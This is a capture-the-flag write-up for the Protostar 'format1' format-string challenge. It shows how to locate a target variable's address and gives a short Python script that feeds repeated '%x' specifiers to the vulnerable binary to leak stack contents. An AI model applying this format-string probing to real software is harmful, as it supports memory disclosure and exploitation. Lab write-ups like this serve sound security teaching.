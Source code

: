 This challenge gives the hint to use objdump -t to find the address of the target variable but it can also be seen in the disassembly.

objdump -t:

![format1_2](https://github.com/kztoth/CTF_Writeup/blob/master/protostar/2%20-%20Format/pics/format1_2.PNG)

disassembly < vuln+17 >:

![format1_1](https://github.com/kztoth/CTF_Writeup/blob/master/protostar/2%20-%20Format/pics/format1_1.PNG)

The address we are looking for is 0x08049638. Now we can start leaking values from the stack with increasing amounts of %x until we find where that address is located.

```python
import subprocess
offset = 200
exploit = "%x " * offset
subprocess.call(['/opt/protostar/bin/format1', exploit])
```

![format1_3](https://github.com/kztoth/CTF_Writeup/blob/master/protostar/2%20-%20Format/pics/format1_3_2.PNG)
